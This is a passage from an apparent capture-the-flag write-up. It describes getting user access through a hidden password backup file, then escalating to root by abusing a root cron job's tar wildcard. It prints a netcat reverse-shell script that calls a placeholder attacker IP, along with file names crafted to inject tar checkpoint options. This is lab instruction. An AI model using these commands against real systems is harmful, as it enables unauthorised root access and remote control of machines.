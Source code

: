 <img width="680" alt="linpeas" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/57490871-eac5-4747-b18e-64bafeac8dfd">
<p></p>
Hidden file .passwordbak is what we looking for! After changing user to Andre with su command we've got <code>user.txt</code>.
<p></p>
Time to escalate our privileges. Sudo-l, searching for SUID didn't work, so maybe in cronjobs we might find something useful. <i>*Yea, I must admit that I'm a little stuck on this one.</i>
<code>*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *</code>
GTFObins will help, as always!
The wild card takes all the files located under this directory and compreses them with tar, so we can create file interpreted as a option for tar :

<code> 
$ cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc YourAttackerMachineIP Port >/tmp/f
EOF
$ echo "" > "/home/andre/backup/--checkpoint=1"
$ echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
</code>

Run Netcat and after 2 minutes we should get a shell as a root!

T.
